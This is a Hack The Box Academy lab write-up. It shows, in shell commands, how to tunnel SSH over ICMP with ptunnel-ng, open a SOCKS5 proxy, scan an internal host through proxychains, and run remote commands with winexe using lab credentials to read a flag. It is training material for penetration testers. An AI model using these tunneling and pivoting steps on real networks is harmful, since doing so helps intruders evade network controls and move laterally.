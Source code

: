 # ICMP Tunneling with SOCKS – Hack The Box Academy Write-Up

**Author:** Don Trabajo  
**Platform:** Hack The Box Academy  
**Module:** ICMP Tunneling with SOCKS  
**Objective:** Establish an ICMP tunnel using `ptunnel-ng`, pivot through a SOCKS5 proxy, and retrieve a flag from an internal host via proxychains.

---

## 🧰 Tools Used

- `ptunnel-ng`
- `ssh`
- `proxychains`
- `xfreerdp`, `winexe` (as fallback)
- `nmap`, `netcat`

---

## 🧱 Environment Setup

### 🔹 Clone & Build `ptunnel-ng` on Attack Host (Kali)
```bash
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
sudo apt install automake autoconf -y
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

### 🔹 Transfer to Pivot (Target) Host
```bash
scp -r ptunnel-ng ubuntu@10.129.133.184:~/
```

---

## 🚪 Launching the Tunnel

### 🔹 On Pivot Host
```bash
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r10.129.133.184 -R22
```

### 🔹 On Attack Host
```bash
cd ptunnel-ng/src
sudo ./ptunnel-ng -p10.129.133.184 -l2222 -r10.129.133.184 -R22
```

---

## 🔌 Creating the SOCKS Proxy

```bash
ssh -D 9050 -N -f -p2222 -lubuntu 127.0.0.1
```

> `-D 9050`: Local SOCKS5 proxy  
> `-N`: No shell  
> `-f`: Background mode

---

## 🔍 Verifying the Proxy

Update `/etc/proxychains4.conf`:
```ini
socks5 127.0.0.1 9050
```

Test it:
```bash
proxychains curl http://example.com
```

---

## 🎯 Pivot to Internal Network

### 🔹 Scan for RDP (Port 3389)
```bash
proxychains nmap -Pn -sT -sV -p3389 172.16.5.19
```

### 🔹 (Failed GUI Method) RDP via Proxy
```bash
proxychains xfreerdp /u:victor /p:"pass@123" /v:172.16.5.19
```
⚠️ Unreliable over ICMP + SOCKS

---

## 🪜 Successful Access via Winexe

### 🔹 Retrieve the Flag from Attack Host
```bash
proxychains winexe -U victor%pass@123 //172.16.5.19 "cmd.exe /c type C:\Users\victor\Downloads\flag.txt"
```

🎉 **Flag captured successfully via full ICMP + SOCKS pivot!**

---

## 🧠 Key Lessons

- ICMP tunneling enables covert communication when traditional channels are blocked.
- SOCKS5 via SSH dynamic port forwarding is a flexible pivot method.
- Use lightweight CLI tools over GUI apps when proxying through complex tunnels.
- Monitor tunnel health and re-establish if behavior becomes unstable.

---

## 🏁 Mission Accomplished

This lab demonstrates covert access to a segmented internal host via ICMP tunnel + dynamic SOCKS proxy, achieving full lateral movement and exfiltration under constrained network controls.


